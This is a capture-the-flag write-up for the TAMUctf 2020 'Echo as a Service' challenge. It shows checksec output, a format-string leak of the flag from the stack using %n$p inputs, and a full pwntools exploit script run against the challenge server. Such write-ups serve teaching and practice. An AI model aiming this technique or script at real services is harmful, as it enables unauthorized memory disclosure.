


# ECHO_AS_A_SERVICE
Binary Explotation, 50 points

## Description
> Echo as a service (EaaS) is going to be the newest hot startup! We've tapped a big market: Developers who really like SaaS.
> [echoasaservice](https://tamuctf.com/files/dca18c2059db76506b4f40666a163f9c/bbpwn)

We'll check the program protections, using `checksec`.

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ checksec echoasaservice
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE/echoasaservice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Hm, so NX and PIE are enabled and no canary, from first look looks like we we'll need to leak some address so probably `format string` and possibly `buffer overflow` since the absence of a canary.

Lets run the program 

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ ./echoasaservice 
Echo as a service (EaaS)
bloop
bloop
Echo as a service (EaaS)
blip 
blip
Echo as a service (EaaS)
^C   
```

Looks like the program takes input in a `while True` and print's it, next step will be to reverse the program



## Vulnerability

The vulnerability is a *stack buffer overflow* and *format string* 



The program reads the flag and stores it on a buffer that is in the stack.

Because only `rdi` is initialized which means that there is only one parameter for `printf`.

[System V amd64 calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI)

## Solution

We we'll try to use the format string and leak the flag that is on the stack :)

Firstly I tried to just used %s multiple times hoping the flag will pop up sometime
but when I reached the eighth element on the stack I got `Segmentation fault`

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ ./echoasaservice 
Echo as a service (EaaS)
%8$s
Segmentation fault (core dumped)
```

Looks weird, I created a fake `flag.txt` file and initialized it with `AAAAAAAAAAAAAAA` so i could recognize the 0x41414141 if i will leak it.

```Console
echo 'AAAAAAAAAAAAAAA' > flag.txt
```

Lets try again, but with `%p` so will see some hex

```Console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ ./echoasaservice 
Echo as a service (EaaS)
%8$p
0x4141414141414141
```

Nice, we reached our flag, now we need to leak it all, looking at the assembly we can see that the length of the flag is `0x19`, the second parameter to `fgets`, so if the eighth element on the stack is the first eight characters of our flag (eight because our architecture is amd64) so we will need the ninth and tenth element as well, together with the null byte at the end of the flag its 25 bytes.

Lets write something that will leak for us:

```python
for i in xrange(8, 11):
	sh.sendlineafter('Echo as a service (EaaS)\n', '%{}$p'.format(i))
	print sh.recvline()[2:-1]
```

Output:

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ python exploit.py remote
[+] Opening connection to challenges.tamuctf.com on port 4251: Done
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE/echoasaservice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
61337b6d65676967
616d7230665f7973
7d316e6c75765f74
```

Now we'll decode

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ python exploit.py remote
[+] Opening connection to challenges.tamuctf.com on port 4251: Done
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE/echoasaservice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
a3{megig
amr0f_ys
}1nluv_t
```

Looks like we got the flag :), but every part is reversed, lets reverse and concat

```python
from pwn import *
import sys

context.clear(arch='amd64', os='linux')

__author__ = 'yuvaly0'

argv = sys.argv
binary_path = './echoasaservice'
REMOTE = False
DEBUG = False

if len(argv) > 1:
	if argv[1] == 'remote':
		REMOTE = True
	if argv[1] == 'debug':
		DEBUG = True

if REMOTE:
	sh = remote('challenges.tamuctf.com', 4251)
else:
	sh = process([binary_path])

if DEBUG:
	gdb.attach(sh, '''
		b* main
		''')

e = ELF(binary_path)

# ------------- plan -----------
# use format string to leak the flag

flag = ''
for i in xrange(8, 11):
	sh.sendlineafter('Echo as a service (EaaS)\n', '%{}$p'.format(i))
	flag += sh.recvline()[2:-1].decode('hex')[::-1]

log.success(flag)
```

Output:

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ python exploit.py remote
[+] Opening connection to challenges.tamuctf.com on port 4251: Done
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE/echoasaservice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] gigem{3asy_f0rmat_vuln1}
```

Flag: `gigem{3asy_f0rmat_vuln1}`

